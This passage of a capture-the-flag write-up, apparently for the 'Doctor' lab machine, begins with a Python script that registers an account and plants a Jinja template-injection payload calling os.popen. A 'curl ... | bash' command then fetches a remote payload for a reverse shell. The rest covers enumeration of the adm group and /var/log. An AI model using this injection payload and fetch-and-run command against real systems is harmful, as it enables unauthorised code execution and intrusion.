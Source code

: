 ```python
# Create user
payload = {'username':username,'email':email,'password':password,'confirm_password':password,'submit':'Sign Up'}
r = s.post(url+'/register',data=payload)

# Login
payload = {'email':email,'password':password,'submit':'Login'}
r = s.post(url+'/login?next=%2Fhome',data=payload)

# Create message
{% raw %}
title = "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__bu	iltins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}"
{% endraw %}
payload = {'title':title,'content':'content','submit':'Post'}
r = s.post(url+'/post/new',data=payload)

# Get Reverse shell
command = requests.utils.quote('curl -L http://'+ip+'/payload | bash')
r = s.get(url+'/archive?input='+command)
```
## User flag

### Enumeration

After getting a reverse shell, [I have upgraded it](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html) and then started to enumerate box:

- The existing users in this box, based in the enumeration of home folders are **shaun** and **web**

- Checking the groups that the current user **web** is member, we notice that this account is member of group **adm**

  ```
  web@doctor:/home$ id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

  - The **adm** group on Linux systems grants access to files located at `/var/log`, which will possibly allow us to find some sensitive information in the logs from webservices or other tasks. 

### Analyzing log files under /var/log

So to start this analysis let's see which components, besides the system defaults, we have being logged on this box

```bash
web@doctor:/var/log$ ls -ld */
drwxr-x---  2 root              adm             4096 Jan 31 00:00 apache2/
drwxr-xr-x  2 root              root            4096 Sep  7 12:13 apt/
drwxr-xr-x  2 root              root            4096 Jan 31 00:00 cups/
drwxr-xr-x  2 root              root            4096 Apr  8  2020 dist-upgrade/
drwxr-xr-x  3 root              root            4096 Apr 23  2020 hp/
drwxrwxr-x  2 root              root            4096 Jul 26  2020 installer/
drwxr-sr-x+ 3 root              systemd-journal 4096 Jul 20  2020 journal/
drwxr-xr-x  2 root              root            4096 Sep  5  2019 openvpn/
drwx------  2 root              root            4096 Apr 23  2020 private/
drwx------  2 speech-dispatcher root            4096 Jan 19  2020 speech-dispatcher/
drwxr-x---  2 root              adm             4096 Jan 30 19:13 unattended-upgrades/
```
